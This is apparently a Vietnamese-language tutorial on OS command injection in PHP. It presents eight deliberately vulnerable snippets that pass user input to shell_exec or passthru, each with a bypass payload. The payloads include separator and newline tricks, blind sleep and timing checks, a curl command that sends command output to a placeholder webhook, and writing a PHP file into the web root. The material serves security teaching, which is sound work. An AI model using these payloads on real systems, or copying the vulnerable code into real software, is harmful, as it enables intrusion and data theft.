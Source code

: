### Example 1

```
$command = $_POST['command'];
$target = $_POST['target'];
switch($command) {
  case "ping":
    $result = shell_exec("timeout 10 ping -c 4 $target 2>&1");
...
```

Giá trị nhập vào không hề được validate mà được đưa trực tiếp vào hàm shell_exec() để thực thi. Khai thác:

`8.8.8.8 ; ls -la`

Sử dụng `;` để kết thúc câu OS command đầu tiên, và đưa câu OS command muốn thực thi vào.

### Example 2

```
$command = $_POST['command'];
$target = $_POST['target'];
if (strpos($target, ";") !== false) 
    die("detected!");
switch($command) {
  case "ping":
    $result = shell_exec("timeout 10 ping -c 4 $target 2>&1");
```

Lần này chương trình filter dấu `;`, ngăn chặn việc chèn câu lệnh không mong muốn.

Ta có toán tử `&&` sẽ có cùng chức năng với `;`. Cách khai thác: `8.8.8.8 && ls`.

### Example 3

```
$command = $_POST['command'];
$target = $_POST['target'];
if (strpos($target, ";") !== false) 
    die("detected!");
if (strpos($target, "&") !== false) 
    die("detected!");
if (strpos($target, "|") !== false) 
    die("detected!");
```

Nâng cao hơn danh sách blacklish lần này bao gồm `; & | `. Có thể dùng kí tự xuống dòng trong linux để kết thúc câu OS command thứ nhất, URL encode của ký tự xuống dòng là %0A.

Cách khai thác: `8.8.8.8 %0A ls`.

### Example 4

```
$target = $_POST['target'];
switch($command) {
  case "backup":
    $result = shell_exec("timeout 3 zip /tmp/$target -r /var/www/html/index.php 2>&1");
    if ($result !== null && strpos($result, "zip error") === false)
        die("Backup thành công");
    else
        die("Backup không thành công");
```

Ở ví dụ này, result không được in ra mà thay vào đó chỉ in ra thông báo backup thành cồn hay không thôi, vậy để biết liệu chương trình có thực thi OS command không thì gán $target = `; sleep 5;`.

Gửi response của câu OS command ra bên ngoài. Dùng tính năng data-binary của curl để bắn đi kết quả của một câu OS command qua webhook.

Payload: `; ls | curl <webhook> --data-binary @-;`.

### Example 5

Tương tự ex trước đó nhưng lần này chương trình được cấu hình không thể truy cập internet, vì vậy không thể gửi respond ra internet được.

Cách khai thác: `; echo '<?php phpinfo(); ?>' > /var/www/html/test.php ;`

### Example 6, 7

Có thể thao túng giá trị trả về bởi câu lệnh if. payload `q /etc/passwd;if [ "$(cat /* | cut -c 1)" = "C" ]; then sleep 5; fi #`

### Example 8

```
$input = addslashes($input);
$username = $input;

$cowsay = <<<EOF
echo 'Hello $username' | cowsay -f eyes -n
EOF;

passthru($cowsay);

```

Biến $username được chèn dấu backlash trước khi thực hiện các câu lệnh tiếp theo. 

Khai thác: `'; ls #`. 

Trường hợp: `echo 'Hello $username' | cowsay -n ; figlet "Hello $username"`

Khai thác dựa trên dấu "", chương trình không filter dấu backtick --> ``ls``.





